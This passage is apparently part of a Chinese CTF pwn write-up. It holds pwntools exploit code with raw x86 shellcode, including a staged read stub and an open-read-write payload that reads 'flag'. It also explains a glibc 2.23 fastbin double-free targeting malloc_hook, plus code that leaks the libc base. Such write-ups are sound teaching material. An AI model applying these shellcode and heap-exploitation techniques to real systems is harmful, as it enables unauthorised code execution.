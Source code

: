 ```plain
    pause()

#shellcode = asm('''
#    mov esp,0x404100
#    shl edi,12
#    push 0xa
#    push 7
#    x:
#    pop edx
#    pop eax
#    syscall
#    pop edi
#    push esi
#    mov esi,ecx
#    jmp x
#    ''')
#print(shellcode)

#\xbc\x00A@\x00\xc1\xe7\x0cj\nj\x07ZX\x0f\x05_V\x89\xce\xeb\xf6' 
shell = b'\xbc\x00A@\x00\xc1\xe7\x0cj\nj\x07ZX\x0f\x05_V\x89\xce\xeb\xf6'
duan()
sa('shellcode\n\n',shell)

#orw_shellcode = asm(shellcraft.cat('flag'))
orw_shellcode = b'j\x01\xfe\x0c$hflag\x89\xe31\xc9j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80'
s(orw_shellcode)
itr()
```

## old\_fastnote

### 思路

依然是无 edit，限制大小 0x80  
不过 2.23 的 fastbin 在 malloc 时会检查拿到的 chunk 的 size 是否正确，所以  
很难申请到任意地址的指针。但是这⾥没有对⻬检查，可以通过字节错位实现绕过。  
add(5,0x68,p64(malloc\_hook-0x23))#0x70 malloc\_hook-0x23  
剩下还是 double free 就行  
2.23 的无 tcache bin，好泄露 libc，直接一个 chunk1 防止合并，然后 delete chunk0 即可

```plain
add(0,0x80,'aaaaaaaa')
add(1,0x80,'aaaaaaaa')
delete(0)
show(0)
libc_base=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x3c4b78
leak('libc_base ',libc_base)
```

